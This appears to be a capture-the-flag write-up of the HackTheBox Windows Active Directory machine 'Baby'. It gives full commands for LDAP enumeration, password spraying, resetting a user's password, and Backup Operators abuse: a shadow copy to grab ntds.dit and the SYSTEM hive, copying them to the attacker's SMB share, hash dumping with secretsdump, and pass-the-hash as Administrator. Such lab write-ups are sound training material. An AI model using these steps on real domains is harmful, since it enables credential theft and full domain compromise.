# [HackTheBox - Baby](https://app.hackthebox.com/machines/Baby)

[toc]
***
## Abstract
Baby is a vulnlab machine imported to HackTheBox as a easy Windows Active Directory box, I started with network enumeration with nmap, revealing this machine is a domain controller and no extra service running on this machine.

On the enumeration phase, I found that null session can be used to conduct LDAP search and retrieve a list of user and also the initial password from user description. however there is one user that could not be pull with common user pull method but searching thoughly in the LDAP result will reveal about this user. 

Using password from user description and the hidden user, revealing that we can change password of this user and gain foothold on the machine.

The user that used for footholding is in Backup Operators group which we can backup ntds.dit along with SYSTEM registry hive and dump hashes of all users in the domain using secretdump and then we can use Administrator NTLM hash to login to the machine and root the box.

## Enumeration

Starting with nmap port scanning and we can see that there are multiple ports opened including LDAP and Kerberos which mean this machine is a domain controller. 
```
nmap $IP
```


I rescanned again with `-sCV` flag for service enumeration and nmap script engine which reveals domain and hostname that we can add to hosts file but other information are not too special at this point  


After adding domain to hosts file. I started enumerate SMB with NetExec tool and we can see that null session could not be used to retrieve anything from  


But after changing protocol to LDAP, we can see that we can pull user lists from the domain and we can also see that we also have a password from user description and it telling us that the initial password of users on this domain is "BabyStart123!" and will likely to be changed after user logon.
```
nxc ldap baby.vl -u '' -p '' --users
```


I created a userlist with NetExec and then password spraying all users from this user list but no hit which mean all users already changed their password and it seem like I missed something I shouldn't.
```
nxc ldap baby.vl -u '' -p '' --users-export baby_users.txt
nxc smb baby.vl -u baby_users.txt -p 'BabyStart123!'
```



I used a simple LDAP search to search for something I might have missed and sure enough, there is one user that could not be pulled with my netexec 
```
ldapsearch -H ldap://baby.vl -x -b "DC=baby,DC=vl" | grep member:
```


I tried to find the reason about it and 0xdf gave on on his write-up "That’s because this user doesn’t have any data associated with them" which is really interesting


I dug into the [source code](https://github.com/Pennyw0rth/NetExec/blob/f981215d776d56234d51f95ac2e48f11e149fe31/nxc/protocols/ldap.py#L740) of NetExec when using ldap to parse user list which reveals that NetExec will retrieve only object with `sAMAccountType` = 805306368 (normal user accounts) and "Caroline.Robinson" does not have this value so it didn't make to the list.


## Initial Foothold by Changing password of Caroline.Robinson

I used the credential found on user description on this user and we can see that we can change password of this user and continue our operation.
```
nxc smb baby.vl -u 'Caroline.Robinson' -p 'BabyStart123!'
```


I used uv to run latest version of NetExec from Github to use change-password module since NetExec on Kali linux is not the latest version and it does not have this module. (you can use other tool to change password of this user)
```
uv run nxc smb baby.vl -u 'Caroline.Robinson' -p 'BabyStart123!' -M change-password -o NEWPASS=Password123
```


Now we can use this account to eneumerate further but nothing too special on share here.


We can use this user to gain a foothold as we can see "Pwn3d!" message from NetExec with WinRM protocol 
```
nxc winrm baby.vl -u 'Caroline.Robinson' -p Password123
```


Using [evil-winrm](https://github.com/Hackplayers/evil-winrm), we can gain a foothold and loot user flag located on the desktop of this user.


## Privilege Escalation with Backup Operators group

After gaining foothold, I used whoami command to list information about current user to find a low-hanging fruit and we can see that this user is a member of Backup Operators group which can backup (SeBackupPrivilege) and restore (SeRestorePrivilege) file on this machine.
```
whoami /all
```


Since this is the domain controller, I will need to create a backup of ntds.dit which is active directory database and SYSTEM registry hive to dump hashes from both of these files, SYSTEM registry can be retrieve with just 1-2 command but on the other hand. I need to create a shadow copy so I can safely retrieve ntds.dit file.

I will use diskshadow to create shadow copy or C drive but first, I need to create a script to automate this first and here in the script
```
set verbose on   
set metadata C:\Windows\Temp\meta.cab   
set context clientaccessible   
set context persistent   
begin backup   
add volume C: alias wowza   
create   
expose %wowza% E:   
end backup
```

The script will create a shadow copy snapshot of C drive and map to E drive and thats it but since this script was created on my Kali Linux, I need to convert Unix format (Line Feed) to DOS format (carriage return + Line feed) which will make this script able to run on Windows.
```
unix2dos diskshadow.txt
```


Next, I uploaded the script on my winrm session and execute it. no error and now we are ready for the file transfer.
```
upload diskshadow.txt
diskshadow /s diskshadow.txt
```



Since SYSTEM hive and ntds.dit files are quite large so, I opened my netshare share and copy both files to my Kali Linux. This way is much faster than download function in evil-winrm. first I created a backup of SYSTEM hive with reg save command.
```
reg save hklm\system c:\system
cp system.hive \\10.10.14.24\debug\
```



Next is ntds.dit file and now we are ready to dump all the hashes inside both files.
```
robocopy /b E:\windows\ntds . ntds.dit
cp ntds.dit \\10.10.14.24\debug\
```


The tool that can be used to dump hashes is secretsdump from impacket and now we can get NTLM hash of Administrator account and gain access to target system via pass-the-hash technique.
```
impacket-secretsdump -ntds ntds.dit -system system.hive local
```


Login as Administrator and loot the flag, Now we are done :D
```
evil-winrm -i baby.vl -u 'Administrator' -H ee4457ae59f1e3fbd764e33d9cef123d
```


https://labs.hackthebox.com/achievement/machine/1438364/739
***